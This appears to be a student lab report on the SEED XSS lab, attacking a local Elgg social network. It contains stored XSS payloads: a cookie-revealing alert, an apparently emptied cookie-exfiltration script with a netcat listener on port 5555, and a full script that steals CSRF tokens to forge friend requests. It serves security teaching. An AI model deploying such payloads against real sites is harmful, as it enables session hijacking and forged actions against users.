





# Cross-Site Scripting Attack Lab (Elgg)

## Environment Setup
### DNS Setup

We began by configuring the /etc/hosts file to map the web server hostname to the IP address 10.9.0.5. This involved adding the appropriate entries to resolve www.seed-server.com to the target server.



To verify the DNS configuration was working correctly, we used the ping command to test connectivity to www.seed-server.com and confirmed we were receiving responses successfully.



### Container Setup and Commands

Next, we built and started the Docker containers using the following commands:
```bash
$ docker-compose build # Build the container image
$ docker-compose up    # Start the container
```
We verified we could access the container shells using ```dockersh``` by first identifying their container IDs with ```docker ps```:




# Lab Tasks
## Task \#1: Displaying a Simple Alert

The objective of this task was to inject JavaScript code into an Elgg user profile that would display an alert pop-up when viewed. We logged into Alice's account and edited her profile. In the ```Brief description``` field, we inserted JavaScript code.



The attack was successful. When Boby visited Alice's profile, the alert pop-up appeared automatically, demonstrating that the XSS vulnerability allows the execution of JavaScript code in other users browsers.


## Task \#2: Stealing Cookies via Alert

This task instead of a simple message, the malicious script now displays the user's session cookies. We can see in the image that we placed the following code in the ```Brief description``` field of Alice's profile:

```html
<script>alert("XSS: "+ document.cookie);</script>
```



Now, whenever any user views Alice's profile, their cookies are displayed in an alert message. This is dangerous because cookies often contain sensitive authentication data such as session tokens. With these stolen cookies, the attacker could impersonate the victim, hijack their session, and gain full access to their account without ever needing their password.


## Task \#3: Sending Cookies to the Attacker

The goal of this task was not only to capture cookies, but to send them to the attacker's machine. We set up a listener on port 5555 to receive the stolen data, then edited Alice's profile. In the ```Brief description``` section, we added the following malicious code:
```html
<script>
document.write('');
</script>
```


This script exploits the browser's image loading mechanism to send cookies via a GET request. When Alice's profile page is rendered, the browser attempts to load an image from the attacker's server (10.9.0.1:5555), embedding the victim's cookies in the URL query string.

To intercept these requests, we opened a terminal and started a netcat listener with the command: ```nc -lknv 5555```. We then logged into another account (Boby) and visited Alice's profile. As expected, we received Boby's session cookies on our listener:


This demonstrates how XSS attacks can be used for credential theft without the victim's knowledge.

## Task \#4

The objective of this task was to create a "self-propagating" friend request attack. When a victim views Samy's profile, they automatically send Samy a friend request without any user interaction.

First, we needed to understand how friend requests work in Elgg. We logged into Samy's account, manually sent a friend request to another user, and captured the HTTP request using the **HTTP Header Live** browser extension:


From the captured request, we identified the required parameters:
- **Endpoint:** `http://www.seed-server.com/action/friends/add`
- **friend=59** (Samy's user ID)
- **__elgg_ts=1763745499** (CSRF timestamp token)
- **__elgg_token=F4606F16YTHQ0zd-ypjRmq** (CSRF security token)

Using this information, we crafted a malicious JavaScript payload that replicates this request automatically. We placed the following script in Samy's "About me" field:
```html
<script type="text/javascript">
    window.onload = function () {
        console.log("XSS payload executing...");
        var Ajax = null;
        
        // Extract CSRF tokens from the page
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
        console.log("Tokens:", ts, token);
        
        // Constructed the friend request URL
        var sendurl = "http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
        console.log("Sending request to:", sendurl);
        
        // Send the AJAX request
        Ajax = new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
        console.log("Friend request sent!");
    }
</script>
```

The script works as follows:

1. **When the page loads (`window.onload`), it executes automatically**

   When the page loads, the script runs automatically because it is wrapped inside window.onload. This ensures that every element of the page—especially the elgg.security.token object—is fully initialized before the malicious code tries to access it. Without this timing, the script wouldn’t be able to retrieve the security tokens Elgg generates for the logged-in user.

2. **It extracts the victim's CSRF tokens from the page (these are valid for the victim's session)**

   Once triggered, the script pulls the victim’s CSRF tokens directly from the page: the timestamp (__elgg_ts) and the session-bound CSRF token (__elgg_token). These two values are essential for passing Elgg’s CSRF checks, and because they belong to the victim rather than Samy, the server interprets any request containing them as legitimate. This is the key reason the attack works—Elgg sees the tokens and assumes the user genuinely initiated the action.

3. **It constructs a valid friend request URL using Samy's ID (59) and the victim's tokens**

   Using these stolen tokens, the script then constructs a complete friend-request URL. It sets Samy’s user ID (59) as the target and appends the freshly extracted timestamp and security token, resulting in a URL that mirrors a genuine request exactly like the ones you saw in HTTP Header Live. An XMLHttpRequest object is created so the operation can run silently in the background.

4. **It sends an AJAX GET request to add Samy as a friend**
   
   Finally, the script sends the forged request using the AJAX GET method. With Ajax.open preparing the request and Ajax.send executing it, the victim’s browser unknowingly submits a valid friend-addition request on Samy’s behalf. Everything happens invisibly to the victim, completing the attack.
   
To test the attack, we logged into Alice's account and visited Samy's profile:


After refreshing Alice's friends page, we confirmed that Samy had been added as a friend automatically, without Alice clicking any "Add Friend" button:


This demonstrates a Cross-Site Request Forgery (CSRF) attack delivered via XSS, where the attacker can force authenticated users to perform unwanted actions (in this case, sending a friend request) simply by viewing a compromised profile.

---

### Question 1: Explain the purpose of Lines ➀ and ➁, why are they needed?

**Line ➀: `var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;`**

This line extracts the victim's CSRF timestamp token and formats it as a URL parameter (`&__elgg_ts=1763745499`). The timestamp validates that the request is recent and prevents replay attacks. Without it, the server will reject the friend request.

**Line ➁: `var token = "&__elgg_token=" + elgg.security.token.__elgg_token;`**

This line extracts the victim's CSRF security token and formats it as a URL parameter (`&__elgg_token=F4606F16YTHQ0zd-ypjRmq`). This token is the primary CSRF protection—it's a unique string tied to the user's session that proves the request is legitimate.

**Why Both Are Needed:**

Elgg requires both tokens for any state-changing action like adding a friend. The server validates that both tokens in the request match what's stored in the victim's session. If either is missing or incorrect, the request is rejected. Our XSS attack succeeds because we extract the victim's own valid tokens from the page using `elgg.security.token`, making our malicious request appear completely legitimate to the server.

### Question 2: If the Elgg application only provides the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

**Yes, the attack can still be launched successfully.**

Even if the Elgg interface only exposes the rich-text editor for the “About Me” field, an attacker could still carry out an XSS attack because removing the Text mode doesn’t meaningfully restrict what can be submitted to the server. Rich-text editors often allow certain HTML elements and attributes, and if any dangerous event-based attributes slip through server-side filtering, malicious code can still be embedded.

Also, an attacker isn’t limited to what the UI shows, they can intercept and modify the outgoing request with browser tools or a proxy and inject whatever payload the client-side editor tries to prevent. If the server doesn’t properly sanitize or encode the input, the crafted content will be stored and executed regardless of what the user interface tries to restrict.

In short, hiding the Text mode only obscures the problem, it doesn’t prevent a attacker, real protection must come from server-side validation and output encoding.

# Questão 2

This attack falls into the category of Stored XSS. The reason is that the malicious code is permanently stored on the Elgg application server, specifically in the database, when we inject the script into the "About me" field of Samy's profile. Whenever any user visits Samy's profile, the server sends the page with the embedded malicious script, making the attack persistent and automatically affecting multiple victims without any further action from the attacker.